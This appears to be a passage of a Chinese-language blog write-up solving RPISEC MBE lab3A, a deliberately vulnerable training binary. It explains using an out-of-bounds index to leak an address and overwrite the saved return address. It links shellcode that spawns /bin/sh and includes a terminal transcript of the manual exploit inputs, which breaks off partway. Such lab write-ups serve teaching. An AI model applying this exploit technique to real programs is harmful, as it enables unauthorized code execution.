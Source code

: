 ![][11]

补码形式为`0xffffffd8`，通过read index `1073741814`即可得到data数组的起始地址。根据类似前面的计算偏移，store index `113`即为覆盖了保存的eip地址。因为代码中的store index要求不能被三整除，所以我们`ret`至`data+4`的地址即可。同时也要调整我们的shellcode，利用短跳`\xeb`跳过被3整除的`0x00000000`指令段，构造方法也是比较[简单的](http://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=xor+eax%2C+eax%0D%0Apush+eax%0D%0Anop%0D%0Ajmp+12%0D%0Anop%0D%0Anop%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Apush+0x68732f2f%0D%0Ajmp+24%0D%0Anop%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Apush+0x6e69622f%0D%0Ajmp+36%0D%0Anop%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Amov+ebx%2C+esp%0D%0Amov+ecx%2C+eax%0D%0Ajmp+48%0D%0Anop%0D%0Anop%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Amov+edx%2C+eax%0D%0Amov+al%2C+0x0b%0D%0Ajmp+60%0D%0Anop%0D%0Anop%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aint+0x80%0D%0Axor+eax%2C+eax%0D%0Ajmp+72%0D%0Anop%0D%0Anop%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Aadd+byte+ptr+%5Beax%5D%2C+al%0D%0Ainc+eax%0D%0Aint+0x80%0D%0Anop&arch=x86-32#assembly)，实践过程中还发现了原始ppt中的一个[书写错误](https://github.com/RPISEC/MBE/issues/38)。

shellcode还要多次输入，结合python脚本运行起来才比较轻松，但32位的pwntools安装就是各种问题，subprocess对运行elf也是莫名地阻塞，嫌麻烦最后手动输入即可pwn：

```
larry@binexp:~/MBE/src/lab03$ ./lab3A
----------------------------------------------------
  Welcome to quend's crappy number storage service!  
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   quend has reserved some storage for herself :>    
----------------------------------------------------

Input command: read
 Index: 1073741814
 Number at data[1073741814] is 3221221000
 Completed read command successfully
Input command: store
 Number: 3221221004
 Index: 113
 Completed store command successfully
Input command: store
 Number: 2421211185
 Index: 1
 Completed store command successfully
Input command: store 
 Number: 2425358059
 Index: 2
 Completed store command successfully
Input command: store
 Number: 1932472168
 Index: 4
 Completed store command successfully
Input command: store
 Number: 2416307048
 Index: 5
 Completed store command successfully
Input command: store
 Number: 1768042344
 Index: 7
 Completed store command successfully
Input command: store
 Number: 2416307054
 Index: 8
 Completed store command successfully
Input command: store
 Number: 3247039369
```

[1]: https://wx2.sinaimg.cn/thumb50/ee2fecafly1fown1sqkxsj20k3054aao.jpg
[2]: https://wx2.sinaimg.cn/thumb50/ee2fecafly1fown1tewd6j20k103274i.jpg
[3]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1u64qqj20k404yjrw.jpg
[4]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1utbtbj20jz032glt.jpg
[5]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1w7uo1j20jz031jrr.jpg
[6]: https://wx4.sinaimg.cn/thumb50/ee2fecafly1fown1wyv1aj20k0042dga.jpg
[7]: https://wx3.sinaimg.cn/thumb50/ee2fecafly1fown1y6sylj20k1087gmv.jpg
[8]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown1z5w0nj20k40623z9.jpg
[9]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown2000xuj20k007ggm7.jpg
[10]: https://wx3.sinaimg.cn/thumb50/ee2fecafly1fown20tsxlj20k203jmxj.jpg
[11]: https://wx1.sinaimg.cn/thumb50/ee2fecafly1fown21yps7j20k5042q3i.jpg